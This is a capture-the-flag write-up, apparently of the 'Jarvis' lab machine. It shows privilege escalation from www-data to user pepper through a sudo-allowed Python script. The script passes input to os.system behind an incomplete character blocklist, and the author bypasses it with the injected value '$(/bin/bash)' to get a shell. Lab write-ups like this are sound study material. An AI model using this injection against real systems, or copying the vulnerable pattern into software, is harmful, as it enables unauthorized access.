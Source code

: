 # Privesc

---

## Privesc (Pepper)

---

I start by looking if I can run commands as sudo:

```bash
www-data@jarvis:/tmp$ sudo -l
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
www-data@jarvis:/tmp$ cd /var/www/Admin-Utilities/
www-data@jarvis:/var/www/Admin-Utilities$ ls
simpler.py
```

I looked at the script and found this function (when pinging a target):

```python
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

This is very insecure, since the script just executes the command you type in. There is a blocking chars list, but the dollar is not in it, so I can use this to spawn a shell as pepper:

```bash
www-data@jarvis:/$ sudo -u pepper /var/www/Admin-Utilities s/simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: $(/bin/bash)
pepper@jarvis:/$
```
